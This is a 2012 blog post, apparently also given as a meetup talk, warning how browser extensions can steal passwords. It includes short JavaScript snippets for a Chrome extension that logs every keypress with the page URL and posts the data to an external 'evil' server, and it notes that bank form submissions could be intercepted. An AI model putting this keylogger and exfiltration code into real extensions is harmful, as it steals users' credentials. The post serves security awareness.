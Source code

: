 ```yaml
---
layout: post
title: "How I'd Steal Your Passwords"
date: 2012-9-24 22:00
---
```


This post is a bit of fun, but also a word of warning about security and being aware of what you install.

I've built browser extensions for Chrome, Firefox and Safari. As I was doing so, exploring the APIs and what was possible, I started to realise how scarily powerful extensions are. I'd like to go through what they might really be capable of, and ask, how careful do we need to be when installing extensions?

> **Update:** I'd just like to make it clear that the following is applicable to **any** extension – I'm not insinuating anything about any one extension.

This is the story of how I would steal your passwords.

### Browser extensions

Let me just explain a bit about extensions…

Extensions are essentially two parts: a background page (or script) with access to browser APIs, and a content script that is injected into a page. The content script has access to a port for communicating with the background page, and it's normally run in a sandbox but with access to the same DOM.

Background pages and content scripts are reasonably well hidden from the user – you'd have to know your way around the developer tools in Chrome to find them.

Extensions also have some kind of configuration file: in Chrome it's a manifest.json; Safari it's Info.plist; package.json in Firefox.

Things are roughly the same across all browsers and, while I've built extensions for all the big three, this post focuses on Chrome. Firefox may actually be the most powerfully frightening, but I haven't explored the opportunities there well enough yet.

So, to steal your passwords, I'd use a Chrome extension.

### Step 1

Build an extension.

For this post, I've modified an existing extension. It's heavily reliant on content scripts, but reasonably complex on the background page side to.

### Step 2

Get people to install it. Otherwise, who's passwords am I going to steal?

Oh and don't worry, there doesn't have to be malicious code there just yet because, once it's installed, the fun begins.

### Step 3

????

### Step 3 (really)

Add a keylogger to your extension.

Yep, it's that simple. With simple use of content scripts and the background page, it's trivial to set up a keylogger that records the user's keystrokes and the page they were on when they entered them.

### Step 4

Profit!

Of course.

### Here's how it works…

I'll go through how I'd do it in my case, with the extension that I used to build a proof of concept, just to give you an idea. As mentioned before, this is applicable to any extension, not just this one. I don't have the ability to deploy the extension I'm using, so I couldn't actually cause damage with this!

### The server

First, I've set up a very simple server using Node. It listens for data sent from a browser containing the key that was pressed and the page the user was on. This data is simply stored for retrieval later.

### The extension

The changes to the content script are scarily small. Please note that this code is intended as an example and not for reference – you can't just drop it in.

### Content script

The first change is the key logger. I've added a few lines to a hotkey content script.

{% highlight javascript %}
document.addEventListener(
  'keypress',
  function (ev) {
    xt.port.emit('key', {
      keyCode: ev.keyCode,
      url: document.location.href
    });
  },
  true
);
{% endhighlight %}

I've wrapped the communication port between content script and background page inside `xt.port`; it's just sending the key data and the page url on every key press.

### Background page

The change in the background page involves listening for a `key` message, before passing it on to the listening server using jQuery's $.post method.

{% highlight javascript %}
port.on("key", function (data) {
  $.post(
    'https://my_server.com/evil/',
    JSON.stringify(data)
  );
});
{% endhighlight %}

### That's it

Yeah, that's all there is to it. You type something, like your password, the content script picks it up, passes it to the background page which sends in on to a remote server.

The key logger can get data from HTTP and HTTPS sites if you specify so in your manifest, so even your bank website isn't safe.

### That's not all

This isn't everything that's possible because we've got access to the whole DOM. To see why this is dangerous, here's an example: assuming you know what form fields to expect on a bank website, it's trivial to intercept form submissions and gather bank IDs, answers to security questions, or anything else you fancy.

### Examples

Here's some data I gathered from my bank and Twitter:

![Bank and Twitter](http://i.phuu.net/JhKb/Screen%20Shot%202012-09-24%20at%2022.23.06.png)

Note that both are HTTPs sites.

In case you were wondering, this is the information that users can get about the extension before they install it:

![Information](http://i.phuu.net/JgGH/Screen%20Shot%202012-09-24%20at%2022.26.37.png)

It's found under the details tab on the Chrome Web Store. I bet you didn't know it was there.

You also see this message upon clicking install:

![Further message](http://i.phuu.net/Jh2V/Screen%20Shot%202012-09-25%20at%2011.01.30.png)

### Silent updates

It's worth noting that, once an extension is installed, the updates are silent unless you change what the extension has access to. So, assuming you've got people to install it, adding this code to an existing extension is simple and silent.

### Conclusion

Overall, be careful what you install. I'm suggesting that the whole extension system has the potential to be very dangerous. It goes without saying that diligence when installing anything is important, but my point here is that you might not have thought about browser extensions in this way. I hope you now will.

### Footnotes

I gave this as a talk at LeamJS September 2012. I'd be interested in giving it again, so get in touch if you're looking for a speaker.

A quick disclaimer: I have never made use, and do not intend to make use, of the contents of this post for malicious activity. I take no responsibility for any damage caused by anyone else as a result of this post. If you steal passwords or other data, on your head be it.

An earlier version of this post explicitly mentioned an extension. Its use here was entirely coincidental and the contents of the post have no relation to the security of that extension.